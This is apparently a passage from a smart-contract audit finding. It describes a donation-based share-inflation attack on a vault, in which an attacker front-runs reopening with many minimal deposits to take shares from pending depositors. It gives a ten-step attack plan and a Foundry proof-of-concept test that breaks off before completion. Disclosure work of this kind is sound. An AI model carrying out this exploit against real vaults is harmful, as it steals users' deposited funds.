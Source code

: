 ### POC
This can be taken advantage of by an attacker by doing the following:
1. The attacker monitors the mempool for a vault deployment.
2. Before the vault is deployed the attacker transfers to the vault some of the vault underlying asset (donation). This increases the value of one share.
3. The protocol team initializes the vault and adds the bootstrap liquidity.
4. Users use the protocol normally and deposits some assets.
5. The vault gets closed by the protocol team and the funds invested.
6. Some users request a deposit while the vault is closed.
7. The attacker monitors the mempool to know when the vault will be open again.
8. Right before the vault is opened, the attacker performs multiple deposit requests with different accounts. For each account he deposits the minimum amount of assets required to receive 1 share.
9. The vault opens.
10. The attacker claims all of the deposits with every account and then redeems the shares immediately for profit.

This will "steal" shares of other users (point `6`) from the claimable silo because the protocol will give the attacker more shares than it should. The attacker will profit and some users won't be able to claim their shares.

Add imports to `TestClaimRedeem.t.sol`:
```solidity
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
```
and copy-paste:
```solidity
function test_attackerProfitsViaRequestingDeposits() external {
    address attacker = makeAddr("attacker");
    address protocolUsers = makeAddr("alice");
    address vaultOwner = vaultTested.owner();

    uint256 donation = 1e18 - 1;
    uint256 protocolUsersDeposit = 10e18 + 15e18;
    uint256 protocolTeamBootstrapDeposit = 1e18;

    IERC20 asset = IERC20(vaultTested.asset());
    deal(address(asset), protocolUsers, protocolUsersDeposit);
    deal(address(asset), attacker, donation);
    deal(address(asset), vaultOwner, protocolTeamBootstrapDeposit);

    vm.prank(vaultOwner);
    asset.approve(address(vaultTested), type(uint256).max);

    vm.prank(protocolUsers);
    asset.approve(address(vaultTested), type(uint256).max);

    vm.prank(attacker);
    asset.approve(address(vaultTested), type(uint256).max);

    //-> Attacker donates `1e18 - 1` assets, this can be done before the vault is even deployed
    vm.prank(attacker);
    asset.transfer(address(vaultTested), donation);

    //-> Protocol team bootstraps the vault with `1e18` of assets
    vm.prank(vaultOwner);
    vaultTested.deposit(protocolTeamBootstrapDeposit, vaultOwner);
    
    //-> Users deposit `10e18` of liquidity in the vault
    vm.prank(protocolUsers);
    vaultTested.deposit(10e18, protocolUsers);

    //-> Vault gets closed
    vm.prank(vaultOwner);
    vaultTested.close();
```